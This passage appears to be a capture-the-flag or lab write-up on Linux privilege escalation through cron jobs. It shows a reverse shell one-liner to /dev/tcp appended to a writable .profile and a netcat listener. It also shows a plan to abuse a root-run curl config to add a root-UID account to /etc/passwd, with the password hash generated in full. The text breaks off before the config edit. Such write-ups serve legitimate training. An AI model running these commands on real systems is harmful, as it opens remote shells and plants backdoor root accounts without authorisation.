 ### Elevating Privileges via Crontab and .profile

Having obtained a shell, we explore the `crontab` and discover the following scheduled tasks:

```shell
*  *    * * *   root    curl -K /home/F30s/site_check
*  *    * * *   F30s    bash -lc 'cat /home/F30s/health_check'
```

Upon further investigation, we notice that `/home/F30s/.profile` is writable. This allows us to inject a reverse shell command into `.profile`, which gets executed due to the `bash -lc 'cat /home/F30s/health_check'` task in the crontab.

We append a reverse shell command to `.profile`:

```shell
echo "bash -i >& /dev/tcp/10.10.225.87/4444 0>&1" >> /home/F30s/.profile
```

We need to replace `10.10.225.87/4444` with our own listening IP address and port. On our host machine, we initiate a listener on port 4444 to catch the incoming reverse shell:

```shell
nc -lvnp 4444
```

We then patiently wait for the crontab job to trigger the `.profile`. Once it’s executed, we receive a new elevated shell as the `F30s` user:

```shell
F30s@482cbf2305ae:~$
```

With elevated privileges in our grasp, we are now in a position to delve deeper into the system, escalating our access or exploring for sensitive data.

### Gaining Root Access via Curl Config Manipulation

We take another look at the cronjob we identified earlier and pay special attention to this job:

```shell
*  *    * * *   root    curl -K /home/F30s/site_check
```

We have write permissions to the `/home/F30s/site_check` file, and since this file is used as a config for the curl command (indicated by the -K option in the cronjob), we see an opportunity.

The permissions of the file are:

```shell
F30s@482cbf2305ae:~$ ls -all /home/F30s/site_check
-rw-r----- 1 F30s F30s 129 Sep 28 20:39 /home/F30s/site_check
```

Given that the curl config is executed by root, and we can edit it, we essentially have the ability to write to any file on the system. We decide to exploit this to add a new user with root permissions directly into the `/etc/passwd` file.

We create a password hash using openssl:

```shell
F30s@482cbf2305ae:~$ echo hacker:`openssl passwd -1 -salt asdf password1`:0:0:root:/root:/bin/bash
hacker:$1$asdf$If00rGpofpPSEO0asfmyq/:0:0:root:/root:/bin/bash
```
